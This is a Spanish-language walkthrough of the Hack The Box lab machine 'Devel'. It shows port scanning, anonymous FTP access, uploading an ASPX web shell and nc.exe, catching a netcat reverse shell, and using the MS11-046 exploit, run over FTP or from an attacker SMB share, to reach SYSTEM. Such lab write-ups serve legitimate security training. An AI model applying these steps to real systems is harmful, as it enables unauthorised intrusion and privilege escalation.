 ```yaml
---
cover: ../../../../.gitbook/assets/Devel.png
coverY: 0
---
```


# Devel

## Reconocimiento

Lanzamos una traza icmp para ver si nos responde la maquina

```shell
> ping -c 1 10.10.10.5
PING 10.10.10.5 (10.10.10.5) 56(84) bytes of data.
64 bytes from 10.10.10.5: icmp_seq=1 ttl=127 time=35.4 ms

--- 10.10.10.5 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 35.388/35.388/35.388/0.000 ms
```

Vamos a escanear todo el rango de puertos abiertos de la maquina

```shell
> nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.5

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127
```

De los puertos encontrados vamos a lanzar scripts básicos de reconocimiento y escanear versiones

<pre class="language-shell"><code class="lang-shell"><strong>> nmap -sCV -p21,80 10.10.10.5
</strong>
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       &#x3C;DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
</code></pre>

### Puerto 21 (ftp)

Con lo escaneado anteriormente vemos que el puerto 21 ftp tiene habilitado el anonymous vamos a echarle un vistazo

```shell
> ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:red): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

### Puerto 80 (http)

<figure><img src="../../../../.gitbook/assets/IIS.PNG" alt=""><figcaption></figcaption></figure>

Si vemos el código fuente la imagen tiene el mismo nombre que en lo que havia en el ftp

<figure><img src="../../../../.gitbook/assets/image.PNG" alt=""><figcaption></figcaption></figure>

Si tenemos permisos para subir en el servidor ftp podríamos subir una web-shell en aspx para ejecutar comandos porque como es un IIS lo interpreta como un archivo

```shell
> cp /usr/share/davtest/backdoors/aspx_cmd.aspx .
> ls
 aspx_cmd.aspx
```

Vamos a subir el cmd.aspx en el servidor ftp con el comando `PUT`

```shell
> ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:red): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.       
ftp> put aspx_cmd.aspx
200 PORT command successful.
150 Opening ASCII mode data connection.
226 Transfer complete.
1438 bytes sent in 0.00 secs (29.1784 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
04-08-21  08:46AM                 1438 aspx_cmd.aspx
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```

Y podemos ejecutar comandos

<figure><img src="../../../../.gitbook/assets/aspx.PNG" alt=""><figcaption></figcaption></figure>

Como podemos ejecutar comandos lo que nos interesa es poder ganar acceso a la maquina no o recibir una reverse shell con netcat pues vamos a subir el nc.exe al servidor ftp

```shell
> ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:red): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary # Muy importante
200 Type set to I.
ftp> put nc.exe
local: nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
28160 bytes sent in 0.00 secs (295.1150 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
04-08-21  09:01AM                 1438 aspx_cmd.aspx
03-17-17  05:37PM                  689 iisstart.htm
04-08-21  09:05AM                28160 nc.exe
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

Claro pero nosotros no sabemos donde ahora esta el nc.exe pues buscando en google la ruta por defecto del IIS vemos que es la siguiente

<figure><img src="../../../../.gitbook/assets/path.png" alt=""><figcaption></figcaption></figure>

**➜** `C:\inetpub\wwwroot\nc.exe`

Pues nos enviamos una reverse shell por nc de la siguiente manera

* Primero nos ponemos en escucha en otra ventana diferente con nc

```shell
> rlwrap nc -lvnp <puerto> # Rlwrap sirve para que podamos tener una shell mas interactiva
listening on [any] 4444 ...
```

* Y estaríamos dentro

<pre class="language-shell"><code class="lang-shell"><strong>> rlwrap nc -lvnp 4444
</strong>listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.5] 49160
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
iis apppool\web

c:\windows\system32\inetsrv>
</code></pre>

## Escalada de Privilegios

Ahora nos queda elevar de privilegios porque tenemos por ahora un usuario con bajos privilegios

Vemos que es un windows 7 y la versión es un tanto antigua vamos a buscar un **exploit** para poder escalar de privilegios al usuario **administrador**.

```shell
C:\Windows\Temp> systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
```

Buscamos en google **6.1.7600 N/A Build 7600** exploit y encontramos el repositorio de github de abatchy17

* Nos descargamos el **ms11-046.exe**

```shell
> wget https://github.com/abatchy17/WindowsExploits/blob/5e9c25cda54fe33fb6e1fd3ae60512a1113b41df/MS11-046/MS11-046.exe
> ls
 ms11-046.exe
```

Para subir-lo a la maquina victima se puede hacer de 2 formas desde ftp o compartiendo una carpeta compartida por smb

1. FTP

```shell
> ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:red): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary
200 Type set to I.
ftp> put ms11-046.exe
local: ms11-046.exe remote: ms11-046.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
139699 bytes sent in 0.16 secs (859.7100 kB/s)
```

```shell
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
c:\windows\system32\inetsrv> C:\inetpub\wwwroot\ms11-046.exe
c:\Windows\System32>whoami
whoami
nt authority\system
```

2. Con smbserver

```shell
> smbserver.py smbFolder $(pwd)
```

```shell
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
c:\windows\system32\inetsrv>\\10.10.16.2\smbFolder\exploit.exe
c:\Windows\System32>whoami
whoami
nt authority\system
```
